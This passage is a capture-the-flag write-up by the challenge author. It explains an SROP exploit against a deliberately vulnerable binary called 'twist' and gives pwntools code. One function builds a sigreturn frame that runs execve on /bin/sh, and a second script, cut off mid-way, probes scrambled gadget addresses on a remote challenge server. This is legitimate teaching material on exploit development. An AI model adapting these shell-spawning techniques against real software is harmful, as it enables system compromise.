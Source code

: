 We see that we have both ``pop rax; ret`` and ``syscall; ret`` setting conditions for an SROP exploit. So we quickly write a [local exploit for twist](pwn-twistlocal.py). The basis of that exploit is just building a malicious SigreturnFrame like below. 

```python
def srop_exec():
    chain = p64(pop_rax)
    chain += p64(0xf)
    chain += p64(syscall_ret)

    frame = SigreturnFrame(arch="amd64", kernel="amd64")
    frame.rax = constants.SYS_execve
    frame.rdi = bin_sh
    frame.rip = syscall_ret

    return chain+bytes(frame)
```

However, throwing this exploit at the server fails, and we are reminded

**Some file contents may have shifted on upload.**

So we can examine where the local and remote binaries are probably different. Our first hint comes by examining some information the program leaks. We notice that both the remote and local versions of the binary produce the following static address leak: ``Debug Mode Enabled; calling 0x401385``. Since this function comes after the address space of all the gadgets, we can assume the challenge author (myself) scrambled the order of the gadgets. From ``pop rax; ret`` at ``0x00401349`` to ``debug_mode`` at ``0x401385`` is only 0x3c (60) bytes. A less elegant solution could try 60 x 60 = 3,600 different attempts for the ``pop rax; ret`` and ``syscall; ret`` and see which one lands our SROP exploit. However, since we included a ``debug_mode()`` that prints the output of the registers, we write a small script to use ``debug_mode()``.

```python
from pwn import *

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary,checksec=False)

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('0.cloud.chals.io', 13658, level="error")
    else:
        return process(e.path, level="error")

def debug_mode(gadget):
    p = start()
    pad = cyclic(16)

    chain = p64(0x401016)  # ret
    chain += p64(gadget)   # gadget 
    chain += p64(0x1337)   # value
    chain += p64(0x401446) # call debug_mode

    p.recvuntil(b'Debug Mode Enabled')
    p.recvline()
    p.recvline()
    p.recvline()
    p.recvline()
```